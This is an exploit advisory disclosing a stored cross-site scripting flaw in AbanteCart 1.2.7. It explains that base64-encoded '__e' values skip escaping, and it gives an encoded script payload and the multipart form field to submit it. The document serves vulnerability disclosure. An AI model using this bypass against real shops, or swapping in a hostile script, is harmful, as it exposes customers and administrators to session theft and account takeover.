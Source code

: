 # Exploit Title: AbanteCart 1.2.7 Stored XSS
# Date: 06-12-2016
# Software Link: http://www.abantecart.com/
# Exploit Author: Kacper Szurek
# Contact: http://twitter.com/KacperSzurek
# Website: http://security.szurek.pl/
# Category: webapps
 
1. Description

By default all user input is escaped using `htmlspecialchars`.

But we can pass `__e` value which is base64 encoded and unfortunatelly those datas are not cleaned.

http://security.szurek.pl/abantecart-127-stored-xss-and-sql-injection.html

2. Proof of Concept

For example `address_1="><script>alert(2);</script>&` can be encoded as: `__e=YWRkcmVzc18xPSI+PHNjcmlwdD5hbGVydCgyKTs8L3NjcmlwdD4m`.

So create new order and set `address_1` value as `__e` using for example Burp:

```
Content-Disposition: form-data; name="__e"

YWRkcmVzc18xPSI+PHNjcmlwdD5hbGVydCgyKTs8L3NjcmlwdD4m
```